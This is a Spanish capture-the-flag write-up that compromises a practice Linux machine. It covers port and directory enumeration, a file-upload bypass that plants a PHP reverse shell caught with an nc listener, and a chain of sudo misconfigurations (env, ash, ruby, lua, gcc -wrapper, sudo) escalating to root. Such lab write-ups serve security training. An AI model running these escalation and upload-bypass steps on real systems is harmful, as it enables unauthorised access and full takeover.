

🔹Maquina: elevator
📅 Publicado el 15/12/2025 | Categoría: LINUX
📝 Descripción
Este reto consiste en comprometer una máquina Linux en un entorno controlado. No se proporciona una flag directa, pero el objetivo es obtener acceso privilegiado (root) y entender el vector de escalada.
🔍 Análisis inicial
El análisis comenzó con un reconocimiento básico utilizando herramientas de enumeración para comprender los servicios expuestos. Una vez dentro del sistema como usuario limitado, buscamos posibles vectores de escalada de privilegios.
sudo nmap -p- -open -sS -sC -sV --min-rate 5000 -n -Pn 172.17.0.2
PORT STATE SERVICE VERSION
80/tcp open http Apache httpd 2.4.62 ((Debian))
|_http-server-header: Apache/2.4.62 (Debian)
|_http-title: El Ascensor Embrujado - Un Misterio de Scooby-Doo
en el http hacemos descubrimiento con gobuster
gobuster dir -u http://172.17.0.2 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -t 50
/themes (Status: 301) [Size: 309] [--> http://172.17.0.2/themes/]
/javascript (Status: 301) [Size: 313] [--> http://172.17.0.2/javascript/]
/Template (Status: 403) [Size: 275]
/Repository (Status: 403) [Size: 275]
/Tag (Status: 403) [Size: 275]
/server-status (Status: 403) [Size: 275]
❯ gobuster dir -u http://172.17.0.2/themes -w /usr/share/wordlists/dirbuster/directory-list-lowercase-2.3-medium.txt -t 32 -x php,html,txt,zip
/uploads (Status: 301) [Size: 317] [--> http://172.17.0.2/themes/uploads/]
/upload.php (Status: 200) [Size: 0]
/archivo.html (Status: 200) [Size: 3380]
Ahora para hacer el bypass, creamos un archivo con la extension .php.jpg en el cual tiene una rever shell de php pentestmonkey, mientras nos ponemos a la escucha con:
nc -lvnp 4444
y nos devuelve una shell como www-data
Ahora comenzamos la escalada de privilegios www-data → daphne:
sudo -l
(daphne) NOPASSWD: /usr/bin/env
Explotación:
sudo -u daphne /usr/bin/env /bin/bash
env permite ejecutar binarios arbitrarios. daphne → vilma:
sudo -l
(vilma) NOPASSWD: /usr/bin/ash
Explotación:
sudo -u vilma /usr/bin/ash
ash es una shell → escalada directa. vilma → shaggy:
sudo -l
(shaggy) NOPASSWD: /usr/bin/ruby
Explotación:
sudo -u shaggy /usr/bin/ruby -e 'exec "/bin/sh"'
Ruby ejecuta código arbitrario. shaggy → fred:
sudo -l
(fred) NOPASSWD: /usr/bin/lua
Explotación:
sudo -u fred /usr/bin/lua -e 'os.execute("/bin/sh")'
Lua permite ejecutar comandos del sistema. fred → scooby:
sudo -l
(scooby) NOPASSWD: /usr/bin/gcc
No se puede ejecutar binarios compilados directamente (no están en sudoers). Explotación correcta usando GTFOBins (gcc -wrapper). Explotación:
sudo -u scooby /usr/bin/gcc -wrapper /bin/sh,-s -x c /dev/null
-wrapper ejecuta un shell dentro del proceso de gcc.
💣 Explotación / Resolución de scooby → root
sudo -l
(root) NOPASSWD: /usr/bin/sudo
sudo -u root /usr/bin/sudo /bin/bash
# Resultado: spawnea una shell como root
whoami
root
Gracias a esto obtuvimos acceso directo como usuario root.
🏆 Resultado
Conseguimos acceso como root, pero no encontramos una flag en la máquina.
Aun así, el objetivo principal de escalada de privilegios fue completado con éxito.